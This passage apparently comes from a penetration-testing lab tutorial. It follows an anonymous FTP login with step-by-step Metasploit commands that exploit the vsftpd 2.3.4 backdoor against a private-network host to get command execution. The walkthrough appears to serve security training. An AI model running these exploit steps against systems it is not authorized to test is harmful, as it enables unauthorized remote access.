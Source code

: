 ![](../images/anonymous_login_via_ftp_client.png)

**Now we have successfully gained access to the ftp server of our target which has misconfigured ftp service. But with the ftp server of metasploit we can't perform that much shell operation as its limited scope of transfering files to the server only**.

**2. Exploiting Backdoor commmand Execution Vulnerability**: This version of vsftp-2.3.4 has a inbuild backdoor present in its source code which allows as to execute full system command once we got successfully connected to that backdoor.

1. Firstly search for the exploit available for this vulnerability, by searching **vsftpd-2.3.4 exploit** on google or any search engine.
2. From that we got to know that there is metasploit exploit module that can be used to connect to this backdoor.
3. Now exploit this vulnerability using metasploit vsftp exploit as:
```
#Run the metasploit framework cli using cmd
msfconsole
#search vsftpd backdoor command execution exploit
msf > search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
#check for fields
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options
#Set field according to our target
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.103
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
#Run the exploit
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```